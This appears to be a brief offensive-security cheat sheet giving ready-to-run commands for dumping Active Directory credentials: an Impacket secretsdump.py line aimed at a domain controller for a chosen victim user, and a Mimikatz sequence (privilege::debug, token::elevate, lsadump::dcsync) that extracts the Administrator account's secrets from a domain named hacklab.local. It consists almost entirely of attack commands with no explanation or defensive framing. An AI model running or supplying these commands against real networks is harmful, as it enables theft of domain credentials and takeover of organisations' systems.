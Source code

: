 Secretdumps
```bash
python3 ./examples/secretsdump.py '{DOMAIN}/{USER}@{IP|HOSTNAME}' -dc-ip {IP} -just-dc-user {VICTIM}  
```

Mimikatz
```powershell
privilege::debug
token::elevate
lsadump::dcsync /domain:hacklab.local /user:hacklab\Administrator
```

